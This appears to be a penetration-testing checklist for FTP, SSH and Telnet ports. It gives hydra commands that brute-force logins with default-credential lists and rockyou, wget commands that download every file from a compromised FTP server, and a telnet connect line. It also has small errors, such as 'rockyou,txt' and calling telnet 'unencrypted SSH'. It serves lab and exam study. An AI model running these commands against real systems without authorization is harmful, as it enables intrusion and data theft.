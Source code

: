 | Port | Service | Notes |
| ---- | ------- | ----- |
| port | service | notes |

---
---
# Ports

## Port 21 (FTP)

- [ ] Check for default credentials
```c
hydra -v -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -f 192.168.245.143 ftp
```
- [ ] Check for vulnerable FTP Version
- [ ] Brute force as root or other user if one is known
```c
hydra -v -V -l root -P /usr/share/wordlists/rockyou,txt 192.168.50.xxx ftp
```
### If access is achieved
- [ ] Download all files
```c
wget -m ftp://anonymous:anonymous@192.168.50.xxx

wget -r --user="USERNAME" --password="PASSWORD" ftp://192.168.50.xxx # if user or password has special chars
```

---
## Port 22 (SSH)

- [ ] Check for default credentials
```c
hydra -v -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt -f 192.168.245.144 -p 22 ssh
```
- [ ] Check for vulnerable SSH Version
- [ ] Brute force as root or other user if one is known
```c
hydra -v -V -l root -P /usr/share/wordlists/rockyou,txt 192.168.50.xxx ssh
```

---
## Port 23 (Telnet)

- [ ] Try connecting to unencrypted SSH
```c
telnet 192.168.xxx.xxx
```

---